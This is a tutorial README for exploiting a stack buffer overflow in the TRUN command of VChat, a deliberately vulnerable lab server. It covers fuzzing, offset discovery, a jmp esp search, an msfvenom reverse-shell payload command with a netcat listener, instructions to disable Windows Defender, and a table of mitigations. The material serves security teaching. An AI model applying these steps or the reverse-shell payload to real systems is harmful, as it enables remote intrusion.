

# VChat TRUN Exploitation

> [!NOTE]
> - The following exploit and its procedures are based on an original [Blog](https://fluidattacks.com/blog/vulnserver-trun/) from fluid attacks.
> - <span style="color:red">Disable Windows *Real-time protection* </span> at *Virus & threat protection* -> *Virus & threat protection settings*.
> - Don't copy the *$* sign when copying and pasting a command in this tutorial.
> - Offsets may vary depending on what version of VChat was compiled, the version of the compiler used, and any compiler flags applied during the compilation process.
____
This  exploit is an example of the classic **buffer overflow**. This is a scenario where an attacker sends a carefully (or not so carefully) crafted input to a local process or remote server. This input, through the use of insecure functions in the target process or the remote server used to process the data received, allows the attacker to arbitrarily write to the program's stack or heap memory spaces. This is done by **overflowing** a variable (array's) allocated space on the stack or heap performing [out of bound writes](https://cwe.mitre.org/data/definitions/787.html). It is also possible to perform [out of bound reads](https://cwe.mitre.org/data/definitions/125.html) known as a *buffer over-read*; however, they are not utilized in this exploit as this attack involves writing to the stack, rather than reading from it.


This is possible in languages like C and C++ as they **do not implement** memory safety guarantees automatically. That is, we can arbitrarily write to and read from the stack or heap of a program written in C or C++. This is only possible because the compiler does not include or implement code for memory safety checks during normal memory accesses. If memory safety is guaranteed, the memory accessed in a program generated from the language's compiler (or interpreter) will always refer to valid addresses allocated to an object [1]. One example of a language with memory safety guarantees (among others) is the [Rust](https://doc.rust-lang.org/book/) programming language.


We will be exploiting a customized and modified Vulnerable By Design (VbD) server known as [VChat](https://github.com/xinwenfu/vchat/tree/main/Server), this is a significantly extended version of the VbD program [Vulnserver](https://github.com/stephenbradshaw/vulnserver).

[](https://youtu.be/_041YB0pDv0)
	
## (Optional) VChat Setup and Configuration
<details>

This section covers the compilation process and use of the VChat Server. We include instructions for both the original VChat code, which was compiled with MinGW and GCC on Windows, and the newly modified code, which can be compiled with the Visual Studio C++ compiler.

### Visual Studio
1. Open the [Visual Studio project](https://github.com/DaintyJet/vchat-fork/tree/main/Server/Visual%20Studio%20Projects/DLL/Essfun) for the *essfunc* DLL.
2. Build the project, as this contains inline assembly the target DLL file must be compiled as a x86 DLL (32-bits).
3. Copy the Resulting DLL from the *Debug* folder in the [Essfunc Project](https://github.com/DaintyJet/vchat-fork/tree/main/Server/Visual%20Studio%20Projects/DLL/Essfun/Debug) into the *Debug* folder in the [VChat Project](https://github.com/DaintyJet/vchat-fork/tree/main/Server/Visual%20Studio%20Projects/EXE/VChat/Debug)

	

4. Open the [Visual Studio project](https://github.com/DaintyJet/vchat-fork/tree/main/Server/Visual%20Studio%20Projects/EXE/VChat) for the *VChat* EXE.
5. Build the Project; our executable will be in the *Debug* folder. You can then launch the executable!

### Mingw/GCC

   1. Compile VChat and its dependencies if they have not already been compiled. This is done with mingw.
      1. Create the essfunc object File.
		```powershell
		# Compile Essfunc Object file
		$ gcc.exe -c essfunc.c
		```
      2. Create the [DLL](https://learn.microsoft.com/en-us/troubleshoot/windows-client/deployment/dynamic-link-library) containing functions that will be used by VChat.
		```powershell
		# Create a DLL with a static (preferred) base address of 0x62500000
		$ gcc.exe -shared -o essfunc.dll -Wl,--out-implib=libessfunc.a -Wl,--image-base=0x62500000 essfunc.o
		```
         * ```-shared -o essfunc.dll```: We create a DLL "essfunc.dll"; these are equivalent to the [shared library](https://tldp.org/HOWTO/Program-Library-HOWTO/shared-libraries.html) in Linux.
         * ```-Wl,--out-implib=libessfunc.a```: We tell the linker to generate an import library "libessfunc.a" [2].
         * ```-Wl,--image-base=0x62500000```: We specify the [Base Address](https://learn.microsoft.com/en-us/cpp/build/reference/base-base-address?view=msvc-170) as ```0x62500000``` [3].
         * ```essfunc.o```: We build the DLL based on the object file "essfunc.o"
      3. Compile the VChat application.
		```powershell
		# Compile and Link VChat
		$ gcc.exe vchat.c -o vchat.exe -lws2_32 ./libessfunc.a
		```
         * ```vchat.c```: The source file is "vchat.c".
         * ```-o vchat.exe```: The output file will be the executable "vchat.exe".
         * ```-lws2_32 ./libessfunc.a```: Link the executable against the import library "libessfunc.a", enabling it to use the DLL "essfunc.dll".
</details>

## Exploit Process
The following sections cover the process that should (Or may) be followed when performing this exploitation on the VChat application. It should be noted that the [**Dynamic Analysis**](#dynamic-analysis) section makes certain assumptions, such as having access to the application binary that may not be realistic in cases where you are exploiting remote servers; however, the enumeration and exploitation of generic Windows, and Linux servers to get the binary from a remote server falls outside of the scope of this document.

> [!IMPORTANT]
> The offsets shown in the following screenshots may differ from those used in the python and ruby code in this repository. This is because the offsets change slightly between the Windows 10 version of VChat compiled with GCC and the Windows 11 version compiled with the Visual Studio compiler.

### Step 1: Information Collecting
We want to understand the VChat program and how it works in order to exploit it effectively. Before diving into the specifics of how VChat behaves, the most important information for us is the IP address of the Windows VM that runs VChat and the port number that VChat runs on.

1. **Windows** Launch the VChat application in *c:\tools\vchat* in the Windows VM.
	* Click on *VChat.exe* in File Explorer when it is in the same directory as the essfunc DLL.
	* You can also use the simple *VChat_GUI.exe* program to launch *VChat.exe*. This method may have a more robust server.

<details>
	
2. (Optional) **Linux**: Run NMap.
	```sh
	# Replace the <IP> with the IP of the machine.
	$ nmap -A <IP>
	```
   * We can think of the `-A` flag as the term aggressive, as it does more than normal scans and is often easily detected.
   * This scan will also attempt to determine the version of the applications; this means when it encounters a non-standard application such as *VChat*, it can take 30 seconds to 1.5 minutes, depending on the speed of the systems involved, to finish scanning. You may find the scan ```nmap <IP>``` without any flags to be quicker!
   * Example results are shown below:

		
</details>

3. **Linux**: As we can see the port ```9999``` is open, we can try accessing it using **Telnet** to send unencrypted communications.
	```
	$ telnet <VChat-IP> <Port>

	# Example
	# telnet 127.0.0.1 9999
	```
   * Once you have connected, try running the ```HELP `` command. This will give us some information regarding the available commands the server processes and the arguments they take. It provides us with a starting point for our [*fuzzing*](https://owasp.org/www-community/Fuzzing) work.
   * Exit with ```CTL+]```.
   * An example is shown below:

		

4. **Linux**: We can try a few inputs to the *TRUN* command and see if we can get any information. Type *TRUN* followed by some additional input as shown below

	

   * Now, trying every possible combination of strings would get quite tiresome, so we can use the technique of [*fuzzing*](#dynamic-analysis) to automate this process, as discussed later in the exploitation section.

### Dynamic Analysis
This exploitation phase is where we launch the target application or binary and examine its behavior based on the input we provide. We can do this both using automated fuzzing tools and manually generated inputs. We do this to discover how to construct a payload that modifies VChat's behavior. We want to construct an attack string as follows: `padding-bytes|address-to-overwrite-return-address|shell-code`, where | means concatenation. Therefore, we need to know how many bytes are required in order to properly pad and align our overflow to overwrite critical sections of data.

#### Launch VChat
1. Open Immunity Debugger

	

    * Note that you may need to launch it as the *Administrator* this is done by right-clicking the icon found in the Windows search bar or on the desktop as shown below:

	

2. Run VChat. When VChat is not already Running -- This is the most reliable option!
   1. Click File -> Open, Navigate to VChat
   2. Click "Debug -> Run"
   3. Notice that a Terminal was opened when you clicked "Open" and you should see the program output in this terminal.

   


#### Step 2: Fuzzing
We use [boofuzz](https://boofuzz.readthedocs.io/en/stable/index.html) for fuzzing, in which methodologically generated random data is injected into the target. It is hoped that the random data will cause the target to perform erratically, for example, crash. If that happens, bugs are found in the target.

1. Open a terminal on the **Kali Linux Machine**.

Go into the boofuzz folder
```
┌──(kali㉿kali)-[~]
└─$ cd ~/boofuzz
```

Start a boofuzz virtual environment so that it does not interfere with other Pyhting settings.
```                                                                                                                                          
┌──(kali㉿kali)-[~/boofuzz]
└─$ source env/bin/activate
                                                                                                                                          
┌──(env)─(kali㉿kali)-[~/boofuzz]
└─$ 
```

2. Run the fuzzing script [boofuzz-vchat-TRUN.py](SourceCode/boofuzz-vchat-TRUN.py)

```
python boofuzz-vchat-TRUN.py
```
*boofuzz-vchat-TRUN.py* works as follows: builds a connection to the target, creates a message template with some fixed fields and a fuzzable field that will change, and then begins to inject the random data case by case into the target. One test case refers to one random message injected into the target.

3. Eventually vchat will crash. Immunity Debugger gives the string that crashes vchat. Find the string in the fuzzing log file. I do feel it is a bit hard to identify which string actually crashes VChat. It appears even after VChat crashes, its port is still open, maybe because it takes time for the OS to clean the crashed VChat. 

   


#### Further Analysis
1. Generate a Cyclic Pattern. We do this so we can tell *where exactly* the return address is located on the stack. We can use the *Metasploit* program [pattern_create.rb](https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_create.rb) to generate this string. By analyzing the values stored in the register which will be a subset of the generated string after a crash, we can tell where in memory the return address is stored.
	```bash
	/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 5000
	```
	* This will allow us to inject and overwrite a new return address at the location our program reads the original return address from.

2. Modify your exploit code to reflect the [exploit1.py](./SourceCode/exploit1.py) script and run it to inject a cyclic pattern into the Vulnserver program's stack and observe the EIP register.

	

3. Notice that the EIP register reads `386F4337` in this case, we can use the [pattern_offset.rb](https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_offset.rb) script to determine the return address's offset based on our search string's position in the pattern we sent to VChat.
	```bash
	/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 43356F43
	```
	* This will return an offset, e.e., 1995. **Note**: the offset may be different from the one shown here. Vchat here was compiled with *gcc* under Windows 11. Different compilers generate different code even if it is the same source code. For example, we are now using Windows 11 and Visual C++. 

In Metasploit's *pattern_offset.rb*, the offset starts counting from the beginning of the input buffer (index 0).
This means:
+ The first byte of the generated cyclic pattern is at offset 0.
+ The second byte is at offset 1.
  
4. Now modify the exploit program to reflect the code in the [exploit2.py](./SourceCode/exploit2.py) script and run the exploit against VChat.
   * We do this to validate that we have the correct offset for the return address!
   * See that the EIP contains a series of the value `0x42`, i.e., `B`. This tells us that we can write an address to that location in order to change the control flow of the target program. We use the character 'B' as this stands out in the stack when we are examining the program under a debugger, and this is also an address that will lead to a crashed system state immediately if we try to execute it. This way, we can more easily examine the behavior of the process and find the root cause.
   * *Note:* It sometimes takes a few runs for this to work and update on Immunity Debugger within the VirtualBox VM.

5. Open the `Executable Modules` window from the **views** tab in Immunity Debugger. This allows us to see the memory offsets of each dependency VChat uses. This will help inform us as to which `jmp esp` instruction we should pick, since we want to avoid any *Windows dynamic libraries* since their base addresses may vary between executions and Windows systems.

6. Use the command `!mona jmp -r esp -cp nonull -o` in the Immunity Debugger's GUI command line to find some `jmp esp` instructions.

	The address of a `jmp esp` instruction will be used to overwrite the return address of the victim function so that when the victim function returns, `jmp esp` gets running. When `jmp esp` runs, it jumps to the location referred to by the `ESP` register (stack top), where the shellcode will be put.

	

	- The `-r esp` flag tells *mona.py* to search for the `jmp esp` instruction.
	- The `-cp nonull` flag tells *mona.py* to ignore null values.
	- The `-o` flag tells *mona.py* to ignore OS modules.
	- We can select any output from this.

	We can see there are nine possible `jmp esp` instructions in the *essfunc* dll that we can use, any of the possible options should work. We will use the last one, `0x625026D3`

8. Modify your exploit program to reflect the [exploit3.py](./SourceCode/exploit3.py) script, we use this to verify that the `jmp esp` address we inject works.
   1. Click on the black button highlighted below, and enter the address we decided in the previous step.

		

   2. Set a breakpoint at the desired address (right-click).

		

   3. Run the [exploit3.py](./SourceCode/exploit3.py) program till an overflow occurs (See EIP/ESP and stack changes and the message at the bottom of the screen).

         * Notice that the EIP now points to an essfunc.dll address!
   
   4. Once the overflow occurs, click the *step over* button highlighted below.

   5. Notice that we jumped to the stack; we just overflowed!

Now that we have all the necessary parts for the creation of a exploit we will discuss what we have done so far (the **exploit.py** files), and how we can now expand our efforts to gain a shell in the target machine.

### Step 3: Exploitation
Up until this point in time,  we have been performing [Denial of Service](https://attack.mitre.org/techniques/T0814/) (DoS) attacks. Since we simply overflowed the stack with what is effectively garbage address values (a series of `A`s, `B`s, and `C`s), all we have done with our exploits is crash the VChat server directly or indirectly after our jump instructions lead to an invalid operation. Now, we have all the information necessary to control the flow of VChat's execution, allowing us to inject [Shellcode](https://www.sentinelone.com/blog/malicious-input-how-hackers-use-shellcode/) and perform a more meaningful attack.

1. We first need to generate some shell code to inject into the process. We will use the [msfvenom](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html) tool to both generate shellcode and encode it to ensure it is transmitted properly. We **must** encode the resulting shellcode so it does not contain any null bytes `0x0`, carriage returns `\r` or newlines `\n`, as their presence would prevent the shellcode from properly executing by breaking the transmission, reception or execution of the shellcode. **Note**: you may need to type the command since copy and paste may not work.

	```sh
	msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.21 LPORT=8080 EXITFUNC=thread -f python -v SHELL -a x86 --platform windows -b '\x00\x0a\x0d'
	```
	* `-p `: Payload we are generating shellcode for.
    	* `windows/shell_reverse_tcp`: Reverse TCP payload for Windows.
    	* `LHOST=10.0.2.21`: The remote listening host's IP, in this case our Kali machine's IP `10.0.2.7`.
    	* `LPORT=8080`: The port on the remote listening host's traffic should be directed to in this case port 8080.
    	* `EXITFUNC=thread`: Create a thread to run the payload.
	* `-f`: The output format.
    	* `python`: Format for use in python scripts.
  	* `-v`: Specify a custom variable name.
    	* `SHELL`: Shell Variable name.
  	* `-a x86`: Specify the target architecture as `x86`
	* `--platform windows`: Specify the target platform as Windows
  	* `-b`: Specifies bad chars and byte values. This is given in the byte values.
      	* `\x00\x0a\x0d`: Null char, carriage return, and newline.

2. Insert this into your exploit python code as shown in [exploit4.py](./SourceCode/exploit4.py) or [exploit5.py](./SourceCode/exploit5.py). The only difference between the two is that the extra padding at the end of [exploit4.py](./SourceCode/exploit4.py)'s payload `b'C' * (5000 - 2003 - 4 - 32 - len(SHELL))` is not needed. This exploit will perform the final exploit, generating a reverse shell.
   
3. Launch a [netcat](https://linux.die.net/man/1/nc) listener on our *Kali Linux* machine listening on port 8080, so we can receive the outbound connection from the target.
	```sh
	nc -l -v -p 8080
	```
	* `nc`: The netcat command.
  	* `-l`: Set netcat to listen for connections.
  	* `v`: Verbose output.
  	* `p`: Set to listen on a port, in this case, port 8080.

5. Run VChat directly or Examine Immunity Debugger with a Break Point during the Exploit's execution.
Now, we can run VChat directly. Alternatively, we can run VChat in Immunity Debugger and examine a few things. So, the following steps are optional.
   1. As done previously, goto the `jmp esp` instruction
   2. Set a breakpoint and launch the exploit
   3. Click the *Step* function a few times, it may look like we are not doing anything (Depending on your padding), however after some number of steps we should arrive at the shellcode as shown below!
   4. Once you are satisfied we are executing the shell code, click the continue (Red arrow) button to allow it to execute.
   5. Look around in your Netcat terminal! You should see a shell like the one shown below. Just note that Windows Defender may kill it if you have it's protections enabled!

	

2. Once done, exit the Netcat program with ```Ctl+C``` to signal and kill the process.

## Step 4: Attack Mitigation Table
In this section we will discuss the effects a variety of defenses would have on *this specific attack* on the VChat server, specifically we will be discussing their effects on a buffer overflow that directly overwrites a return address and attempts to execute shellcode that has been written to the stack. We will make a note that these mitigations may be bypassed if the target application contains additional vulnerabilities such as a [format string vulnerability](https://owasp.org/www-community/attacks/Format_string_attack), or by using more complex exploits like [Return Oriented Programming (ROP)](https://github.com/DaintyJet/VChat_TRUN_ROP).

First, we will examine the effects of individual defenses on this exploit, and then we will examine the effects of a combination of these defenses on the VChat exploit.

The mitigations we will be using in the following examination are:
* [Buffer Security Check (GS)](https://github.com/DaintyJet/VChat_Security_Cookies): Security Cookies are inserted on the stack to detect when critical data such as the base pointer, return address or arguments have been overflowed. Integrity is checked on function return.
* [Data Execution Prevention (DEP)](https://github.com/DaintyJet/VChat_DEP_Intro): Uses paged memory protection to mark all non-code (.text) sections as non-executable. This prevents shellcode on the stack or heap from being executed, as an exception will be raised.
* [Address Space Layout Randomization (ASLR)](https://github.com/DaintyJet/VChat_ASLR_Intro): This mitigation makes it harder to locate where functions and datastructures are located as their region's starting address will be randomized. This is only done when the process is loaded, and if a DLL has ASLR enabled it will only have it's addresses randomized again when it is no longer in use and has been unloaded from memory.
* [SafeSEH](https://github.com/DaintyJet/VChat_SEH): This is a protection for the Structured Exception Handing mechanism in Windows. It validates that the exception handler we would like to execute is contained in a table generated at compile time.
* [SEHOP](https://github.com/DaintyJet/VChat_SEH): This is a protection for the Structured Exception Handing mechanism in Windows. It validates the integrity of the SEH chain during a runtime check.
* [Control Flow Guard (CFG)](https://github.com/DaintyJet/VChat_CFG): This mitigation verifies that indirect calls or jumps are performed to locations contained in a table generated at compile time. Examples of indirect calls or jumps include function pointers being used to call a function, or if you are using `C++` virtual functions, which would be considered indirect calls as you index a table of function pointers.
* [Heap Integrity Validation](https://github.com/DaintyJet/VChat_Heap_Defense): This mitigation verifies the integrity of a heap when operations are performed on the heap itself, such as allocations or frees of heap objects.
### Individual Defenses: VChat Exploit
|Mitigation Level|Defense: Buffer Security Check (GS)|Defense: Data Execution Prevention (DEP)|Defense: Address Space Layout Randomization (ASLR) |Defense: SafeSEH| Defense: SEHOP | Defense: Heap Integrity Validation| Defense: Control Flow Guard (CFG)|
|-|-|-|-|-|-|-|-|
|No Effect| | |X |X |X | X| X| X|
|Partial Mitigation| | | | | | | |
|Full Mitigation|X| | | | | | | |
---
|Mitigation Level|Defense: Buffer Security Check (GS)|Defense: Data Execution Prevention (DEP)|Defense: Address Space Layout Randomization (ASLR) |Defense: SafeSEH| Defense: SEHOP | Defense: Heap Integrity Validation| Defense: Control Flow Guard (CFG)|
|-|-|-|-|-|-|-|-|
|No Effect| | |X |X |X | X| X| X|
|Partial Mitigation| | | | | | | |
|Full Mitigation| |X| | | | | | |
---
|Mitigation Level|Defenses|
|-|-|
|No Effect|Address Space Layout Randomization, SafeSEH, SEHOP, Heap Integrity Validation, and Control Flow Guard (CFG) |
|Partial Mitigation|*None*|
|Full Mitigation|Buffer Security Checks (GS) ***or*** Data Execution Prevention (DEP)|
* `Defense: Buffer Security Check (GS)`: This mitigation strategy proves effective against stack-based buffer overflows that overwrite a function's return address or arguments. This is because the randomly generated security cookie is placed before the return address, and its integrity is validated before the return address is loaded into the `EIP` register. As the security cookie is placed before the return address, in order for us to overflow the return address, we would have to corrupt the security cookie, allowing us to detect the overflow.
* `Defense: Data Execution Prevention (DEP)`: This mitigation strategy proves effective against stack-based buffer overflows that attempt to **directly execute** shellcode located on the stack as this would raise an exception.
* `Defense: Address Space Layout Randomization (ASLR)`: This does not affect our exploit as we do not require the addresses of external libraries or the addresses of internal functions.
* `Defense: SafeSEH`: This does not affect our exploit as we do not leverage Structured Exception Handling.
* `Defense: SEHOP`: This does not affect our exploit as we do not leverage Structured Exception Handling.
* `Defense: Heap Integrity Validation`: This does not affect our exploit as we do not leverage the Windows Heap.
* `Defense: Control Flow Guard`: This does not affect our exploit as we do not leverage indirect calls or jumps.
> [!NOTE]
> `Defense: Buffer Security Check (GS)`: If the application improperly initializes the global security cookie or contains additional vulnerabilities that can leak values on the stack, then this mitigation strategy can be bypassed.
>
> `Defense: Data Execution Prevention (DEP)`: If the attacker employs a [ROP Technique](https://github.com/DaintyJet/VChat_TRUN_ROP), then this defense can be bypassed.
 ### Combined Defenses: VChat Exploit
|Mitigation Level|Defense: Buffer Security Check (GS)|Defense: Data Execution Prevention (DEP)|Defense: Address Layout Randomization (ASLR) |Defense: SafeSEH| Defense: SEHOP | Defense: Heap Integrity Validation| Defense: Control Flow Guard (CFG)|
|-|-|-|-|-|-|-|-|
|Defense: Buffer Security Check (GS)|X|**Increased Security**: Combining two effective mitigations provides the benefits of both.|**Increased Security**: ASLR increases the randomness of the generated security cookie.|**No Increase**: The SEH feature is not exploited.|**No Increase**: The SEH feature is not exploited.|**No Increase**: The Windows Heap is not exploited.|**No Increase**: Indirect Calls/Jumps are not exploited.| |
|Defense: Data Execution Prevention (DEP)|**Increased Security**: Combining two effective mitigations provides the benefits of both.|X| **Partial Increase**: The randomization of addresses does not directly affect the protections provided by DEP. However, it does make it harder to bypass the protections of DEP with ROP Chains.|**No Increase**: The SEH feature is not exploited.|**No Increase**: The SEH feature is not exploited.|**No Increase**: The windows Heap is not exploited.|**No Increase**: Indirect Calls/Jumps are not exploited. | |

> [!NOTE]
> We omit repetitive rows representing the ineffective mitigation strategies as their cases are already covered.

## (Optional) VChat Code
In the function ```DWORD WINAPI ConnectionHandler(LPVOID CSocket)```, which is called for **all** connections made to  the **VChat** process. A message sent from the user (e.g. attacker) is put into a local buffer *RecvBuf*. The following code snippet from the ```ConnectionHandler``` function handles the **TRUN** command. This copies 3000 bytes from the *RecvBuf* into another buffer that has been declared *TurnBuf* if the command message contains a period. This new buffer *TurnBuf* is then passed to the function ```void Function3(char* Input)```. 

<!-- Below is a code snippet from the function ```DWORD WINAPI ConnectionHandler(LPVOID CSocket)``` in the VChat source code.  -->
	```c
	// Allocate TrunBuf on the heap
	char* TrunBuf = malloc(3000);
	// Set TrunBuf to be all 0s
	memset(TrunBuf, 0, 3000);

	// Iterate through TRUN command (Exclude "TRUN ")
	for (i = 5; i < RecvBufLen; i++) {
		// If there is a period
		if ((char)RecvBuf[i] == '.') {
			// Copy 3000 chars of RecvBuf into TrunBuf
			strncpy(TrunBuf, RecvBuf, 3000);
			// Enter function 3
			Function3(TrunBuf);
			// Stop for loop
			break;
		}
	}
	// Zero out TurnBuf's heap memory
	memset(TrunBuf, 0, 3000);
	// Respond
	SendResult = send(Client, "TRUN COMPLETE\n", 14, 0);
	```
> This ( ```DWORD WINAPI ConnectionHandler(LPVOID CSocket)```) is not where the overflow occurs!


In ```Function3(char* Input)```, the C [standard library function](https://man7.org/linux/man-pages/man3/strcpy.3.html) ```strcpy(char* dst, char* src)``` is used to copy the passed parameter *Input* (i.e. TurnBuf) into a local buffer Buffer2S[2000]. Unlike the C [standard library function](https://cplusplus.com/reference/cstring/strncpy/) ```strncpy(char*,char*,size_t)``` used in the ```ConnectionHandler(LPVOID CSocket)``` which copies only a specified number of characters to the destination buffer. The ```strcpy(char* dst, char* src)``` function does not perform any **bound checks** when copying data from the **source** to **destination** buffer, it will stop copying once every byte up to and including a **null terminator** (`\0`) from the **source** buffer has been copied contiguously to the **destination** buffer. This means if the **source** contains more characters than the **destination** buffer can hold, ```strcpy(char*,char*)``` will continue to copy them even past the bounds of the destination object. The location of the **destination** object being allocated on the *stack* (locally defined) or on the *heap* (dynamically defined) does affect the basic overflow concept but would modify the exploit; in this case the **destination** is created *locally* on the stack. This object being located on the stack allows us to **overflow** the bounds and **overwrite** the return address which is located on the stack. This allows us to take control of the program.

```cpp
void Function3(char *Input) {
	// Space for 2000 characters in the destination buffer
	char Buffer2S[2000];
	// Copies the Input buffer (which contains up to 3000 characters) into the buffer with space for 2000 chars.
	strcpy(Buffer2S, Input);
}
```
> This is where the overflow occurs!

## Test code
1. [exploit0.py](SourceCode/exploit1.py): Sends a reproduction of the fuzzed message that crashed the server.
2. [exploit1.py](SourceCode/exploit1.py): Sends a cyclic pattern of chars to identify the offset used to modify the memory at the address we need to inject to control EIP.
3. [exploit2.py](SourceCode/exploit2.py): Replacing the bytes at the offset discovered by exploit1.py with the address of a different value (`B`) so we can ensure the offset we discovered is correct.
4. [exploit3.py](SourceCode/exploit3.py): Replacing the bytes at the offset discovered by exploit1.py with the address of a `jmp esp` instruction. This is used to modify the control flow, and test that our address for `jmp esp` is correct.
5. [exploit4.py](SourceCode/exploit4.py): Adding the reverse shell code to the payload (Modifies [exploit3.py](SourceCode/exploit3.py)).
6. [exploit5.py](SourceCode/exploit5.py): Adding the reverse shell code to the payload without the last set of  padding, which is really not needed.


<!-- 
## Notes
1. If the test setting described in [SystemSetup](../SystemSetup/README.md) is used, the python attacking code works directly with no need of change other than the shellcode being replaced so the correct IP is used.
2. If the address of *jmp esp* comes from essfunc.dll as used in the example Python code, since essfunc.dll does not use ASLR there is no need of changing the address of the *jmp esp* instruction since it will not change even when Windows 11 reboots.
-->

<!--  -->

## References
[[1] Memory safety in Rust](https://stanford-cs242.github.io/f18/lectures/05-1-rust-memory-safety.html)

[[2] Building a shared library using gcc on Linux and MinGW on Windows](https://stackoverflow.com/questions/17601949/building-a-shared-library-using-gcc-on-linux-and-mingw-on-windows)

[[3] CPP/C++ Compiler Flags and Options](https://caiorss.github.io/C-Cpp-Notes/compiler-flags-options.html)

[[4] An Introduction to Fuzzing: Using SPIKE to find vulnerabilities in Vulnserver](https://thegreycorner.com/2010/12/25/introduction-to-fuzzing-using-spike-to.html)

[[5] Fuzzing with Spike](https://samsclass.info/127/proj/p18-spike.htm)

[[6] Fuzzing](https://owasp.org/www-community/Fuzzing)
